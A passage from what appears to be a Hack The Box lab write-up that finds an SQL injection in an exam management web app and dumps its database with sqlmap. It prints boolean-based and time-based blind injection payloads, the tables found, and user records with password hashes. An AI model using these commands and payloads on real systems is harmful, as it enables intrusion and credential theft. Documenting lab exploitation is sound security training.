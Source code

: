 ## Dumping the databases

### ERMS

The vulnerable URL from the [SQLi exploit in Exploit-DB][erms-sqli] does not exactly match. In the original source, it is found in:

```shell
grep -rail take_exam .
# view_exam.php
```

And this is actually available in the index file on the server.

```shell
sqlmap -r take_exam.request --level=5 --risk=3 --dbms=mysql --dump
# ---
# Parameter: id (GET)
#     Type: boolean-based blind
#     Title: AND boolean-based blind - WHERE or HAVING clause
#     Payload: p=take_exam&id=1' AND 2898=2898-- kxAX

#     Type: time-based blind
#     Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
#     Payload: p=take_exam&id=1' AND (SELECT 9635 FROM (SELECT(SLEEP(5)))Srsk)-- szFU
# ---
# [09:14:38] [INFO] resumed: erms_db
# [09:14:38] [INFO] fetching tables for database: 'erms_db'
# [09:14:38] [INFO] fetching number of tables for database 'erms_db'
# [09:14:38] [INFO] resumed: 6
# [09:14:38] [INFO] resumed: category_list
# [09:14:38] [INFO] resumed: exam_list
# [09:14:38] [INFO] resumed: option_list
# [09:14:38] [INFO] resumed: question_list
# [09:14:38] [INFO] resumed: system_info
# [09:14:38] [INFO] resumed: users
sqlmap -r take_exam.request --level=5 --risk=3 -p id --dbms=mysql --dump -D erms_db -T users
# +----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
# | id | type | avatar                            | lastname | password                         | username         | firstname    | date_added          | last_login | date_updated        |
# +----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
# | 1  | 1    | ../oldmanagement/files/avatar.png | Admin    | fc8ec7b43523e186a27f46957818391c | admin            | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2022-02-24 22:00:15 |
# | 6  | 2    | ../oldmanagement/files/avatar.png | Anthony  | 48bb86d036bb993dfdcf7fefdc60cc06 | UndetectableMark | Mark         | 2021-09-30 16:34:02 | NULL       | 2022-05-10 08:21:39 |
# | 7  | 2    | ../oldmanagement/files/avatar.png | Smith    | 184fe92824bea12486ae9a56050228ee | Stev1992         | Steven       | 2022-02-22 21:05:07 | NULL       | 2022-02-24 22:00:24 |
# +----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
sqlmap -r take_exam.request --level=5 --risk=3 -p id --dbms=mysql --dump -D erms_db -T system_info
# +----+-------------+-------------------------------------------+
# | id | meta_field  | meta_value                                |
# +----+-------------+-------------------------------------------+
# | 1  | name        | Seventeen Exam Reviewer Management System |
# | 6  | short_name  | Examination Management System             |
# | 11 | logo        | uploads/l.jpg                             |
# | 13 | user_avatar | uploads/user_avatar.jpg                   |
# | 14 | cover       | uploads/1644023580_wallpaper.jpg          |
# +----+-------------+-------------------------------------------+
```


[author-profile]: https://app.hackthebox.com/users/389926
[erms-repo]: https://www.sourcecodester.com/php/15160/simple-exam-reviewer-management-system-phpoop-free-source-code.html
[frontpage]: images/frontpage.png
[erms-sqli]: https://www.exploit-db.com/exploits/50725
[oretnom23]: https://www.google.com/search?q=oretnom23+exam+php
[sfms-admin-login]: images/sfms-admin-login.png
[sfms-sqli]: https://www.exploit-db.com/exploits/48437
[snyk-dca]: https://snyk.io/blog/detect-prevent-dependency-confusion-attacks-npm-supply-chain-security/
[student-portal]: images/student-portal.png
